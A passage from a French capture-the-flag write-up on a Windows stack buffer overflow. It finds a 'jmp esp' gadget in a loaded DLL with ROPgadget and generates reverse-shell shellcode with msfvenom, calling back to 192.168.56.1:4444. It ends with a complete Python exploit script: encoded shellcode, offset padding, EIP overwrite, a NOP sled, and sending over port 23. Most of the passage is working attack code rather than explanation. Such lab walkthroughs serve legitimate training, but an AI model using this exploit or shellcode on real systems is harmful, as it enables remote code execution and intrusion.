 ```
```

Tout comme le précédent CTF du même auteur, ESP pointe sur les octets après l'adresse de retour.

On a besoin d'une adresse valide pour écraser EIP. On peut trouver un `jmp esp` dans l'exécutable mais son adresse contient un octet nul. C'est là qu'entre en jeux la DLL qui est chargée par le binaire :

```bash
$ python ROPgadget.py --binary /tmp/funcs_access.dll | grep "jmp esp"
0x625012d0 : jmp esp
0x625012ce : mov ebp, esp ; jmp esp
0x625012cd : push ebp ; mov ebp, esp ; jmp esp
```

On a notre adresse de retour, maintenant utilisons `msfvenom` pour générer notre shellcode sans les mauvais caractères.

```bash
msfvenom -a x86 -b '\x4d\x4f\x5f\x79\x7e\x7f\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
```

Voici l'exploit :

```python
import socket

# msfvenom -a x86 -b '\x4d\x4f\x5f\x79\x7e\x7f\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
buf =  b""
buf += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\x96\xa4\x58\xba\x83\xee\xfc\xe2\xf4\x6a\x4c"
buf += b"\xda\xba\x96\xa4\x38\x33\x73\x95\x98\xde\x1d\xf4\x68"
buf += b"\x31\xc4\xa8\xd3\xe8\x82\x2f\x2a\x92\x99\x13\x12\x9c"
buf += b"\xa7\x5b\xf4\x86\xf7\xd8\x5a\x96\xb6\x65\x97\xb7\x97"
buf += b"\x63\xba\x48\xc4\xf3\xd3\xe8\x86\x2f\x12\x86\x1d\xe8"
buf += b"\x49\xc2\x75\xec\x59\x6b\xc7\x2f\x01\x9a\x97\x77\xd3"
buf += b"\xf3\x8e\x47\x62\xf3\x1d\x90\xd3\xbb\x40\x95\xa7\x16"
buf += b"\x57\x6b\x55\xbb\x51\x9c\xb8\xcf\x60\xa7\x25\x42\xad"
buf += b"\xd9\x7c\xcf\x72\xfc\xd3\xe2\xb2\xa5\x8b\xdc\x1d\xa8"
buf += b"\x13\x31\xce\xb8\x59\x69\x1d\xa0\xd3\xbb\x46\x2d\x1c"
buf += b"\x9e\xb2\xff\x03\xdb\xcf\xfe\x09\x45\x76\xfb\x07\xe0"
buf += b"\x1d\xb6\xb3\x37\xcb\xcc\x6b\x88\x96\xa4\x30\xcd\xe5"
buf += b"\x96\x07\xee\xfe\xe8\x2f\x9c\x91\x5b\x8d\x02\x06\xa5"
buf += b"\x58\xba\xbf\x60\x0c\xea\xfe\x8d\xd8\xd1\x96\x5b\x8d"
buf += b"\xea\xc6\xf4\x08\xfa\xc6\xe4\x08\xd2\x7c\xab\x87\x5a"
buf += b"\x69\x71\xcf\xd0\x93\xcc\x98\x12\xae\xa5\x30\xb8\x96"
buf += b"\xb5\x04\x33\x70\xce\x48\xec\xc1\xcc\xc1\x1f\xe2\xc5"
buf += b"\xa7\x6f\x13\x64\x2c\xb6\x69\xea\x50\xcf\x7a\xcc\xa8"
buf += b"\x0f\x34\xf2\xa7\x6f\xfe\xc7\x35\xde\x96\x2d\xbb\xed"
buf += b"\xc1\xf3\x69\x4c\xfc\xb6\x01\xec\x74\x59\x3e\x7d\xd2"
buf += b"\x80\x64\xbb\x97\x29\x1c\x9e\x86\x62\x58\xfe\xc2\xf4"
buf += b"\x0e\xec\xc0\xe2\x0e\xf4\xc0\xf2\x0b\xec\xfe\xdd\x94"
buf += b"\x85\x10\x5b\x8d\x33\x76\xea\x0e\xfc\x69\x94\x30\xb2"
buf += b"\x11\xb9\x38\x45\x43\x1f\xa8\x0f\x34\xf2\x30\x1c\x03"
buf += b"\x19\xc5\x45\x43\x98\x5e\xc6\x9c\x24\xa3\x5a\xe3\xa1"
buf += b"\xe3\xfd\x85\xd6\x37\xd0\x96\xf7\xa7\x6f"

jmp_esp = b"\xd0\x12\x50\x62"

buffer = b"A"*1898 + b"BBBB" + jmp_esp + b"\x90" * 32 + buf
sock = socket.socket()
sock.connect(("192.168.56.51", 23))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```